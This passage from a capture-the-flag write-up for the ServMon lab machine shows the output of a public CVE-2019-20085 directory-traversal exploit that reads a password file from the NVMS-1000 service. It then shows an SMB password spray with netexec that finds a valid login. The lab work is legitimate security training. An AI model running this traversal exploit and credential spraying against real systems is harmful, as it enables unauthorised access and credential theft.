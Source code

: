 This is NSClient++.

## Remote Code Execution

Here is how I achieved remote code execution on the target system.

This [CVE-2019-20085 PoC](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py) works:

```console
$ python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt x.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

One hit:

```console
$ nxc smb servmon.htb -u ./u.txt -p ./p.txt --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
```
